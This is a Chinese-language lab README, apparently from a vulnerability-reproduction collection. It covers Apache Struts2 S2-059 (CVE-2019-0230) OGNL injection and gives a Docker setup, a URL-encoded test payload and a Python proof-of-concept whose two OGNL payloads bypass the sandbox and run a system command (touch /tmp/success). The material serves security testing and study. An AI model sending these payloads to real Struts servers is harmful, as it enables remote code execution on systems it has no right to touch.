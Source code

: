 # Struts2 S2-059 远程代码执行漏洞(CVE-2019-0230)

影响版本: Struts 2.0.0 - Struts 2.5.20

## 详细信息

Apache Struts框架, 会对某些特定的标签的属性值，比如id属性进行二次解析，所以攻击者可以传递将在呈现标签属性时再次解析的OGNL表达式，造成OGNL表达式注入。从而可能造成远程执行代码

## 参考

https://cwiki.apache.org/confluence/display/WW/S2-059

## 启动

启动 Struts 2.5.16环境:

```
docker-compose up -d
```
启动环境之后访问`http://your-ip:8080/?id=1` 就可以看到测试界面

## Exploit

POC: 

访问 `http://your-ip:8080/?id=%25%7B233*233%7D`
可以发现233*233的结果被解析到了id属性中

![1.png](./1.png)

[OGNL Apache Struts exploit: Weaponizing a sandbox bypass (CVE-2018-11776)](https://securitylab.github.com/research/ognl-apache-struts-exploit-CVE-2018-11776)给出了绕过struts2.5.16版本的沙盒的poc，利用这个poc可以达到执行系统命令

一个用于验证漏洞的简单python的poc

```python
import requests
url = "http://127.0.0.1:8080"
data1 = {
    "id": "%{(#context=#attr['struts.valueStack'].context).(#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.setExcludedClasses('')).(#ognlUtil.setExcludedPackageNames(''))}"
}
data2 = {
    "id": "%{(#context=#attr['struts.valueStack'].context).(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).(@java.lang.Runtime@getRuntime().exec('touch /tmp/success'))}"
}
res1 = requests.post(url, data=data1)
# print(res1.text)
res2 = requests.post(url, data=data2)
# print(res2.text)
```

执行poc之后，`touch /tmp/success` 命令会被执行 
![2.png](./2.png)




